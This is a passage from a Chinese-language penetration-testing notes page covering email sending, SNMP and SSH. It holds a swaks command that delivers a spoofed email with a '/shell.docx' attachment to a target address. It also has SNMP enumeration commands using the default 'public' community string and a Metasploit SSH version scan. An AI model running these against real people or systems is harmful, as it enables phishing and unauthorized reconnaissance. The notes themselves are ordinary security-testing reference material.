     kali 自带
    ```bash
    swaks
    ```

    配合 https://support.smtp2go.com/hc/en-gb
    ```bash
    swaks --to 目标@qq.com --from info@smtp2go.com\
    --header-X-Mailer SMTP  --ehlo root@163.com --body 'test'\
    --server mail.smtp2go.com -p 2525 -au 账号 -ap 密码 \
    --attach /shell.docx --header "Subject:test" \
    --h-From: 'test<root@163.com>'
    ```

---

# SNMP

**文章**
- [SNMP 协议攻击](https://xz.aliyun.com/t/1562)
- [渗透测试中如何收集利用 SNMP 协议数据](https://www.freebuf.com/articles/network/104522.html)

**工具**
- [trailofbits/onesixtyone](https://github.com/trailofbits/onesixtyone) - SNMP 扫描器是一个程序，它向多个 IP 地址发送 SNMP 请求，尝试不同的团体字符串并等待回复。

**snmp 弱口令**
- 文章
    - [烂泥:使用 snmpwalk 采集设备的 OID 信息](https://www.ilanni.com/?p=8408)
    - [snmp 弱口令引起的信息泄漏](http://drops.xmd5.com/static/drops/tips-409.html)

- 利用

    安装 `yum -y install net-snmp-utils`

    Usage
    ```bash
    snmpwalk -v 2c -c public 192.168.xxx.xxx
    snmp-check 192.168.xxx.xxx -c public -v 2c
    ```

---

# SSH

**文章**
- [SSH Pentesting Guide](https://community.turgensec.com/ssh-hacking-guide/)

**工具**
- [arthepsy/ssh-audit](https://github.com/arthepsy/ssh-audit) - SSH服务器审计（banner、密钥交换、加密、mac、压缩、兼容性、安全性等）

**版本扫描**
```bash
use auxiliary/fuzzers/ssh/ssh_version_2
set RHOSTS <IP>
run
```
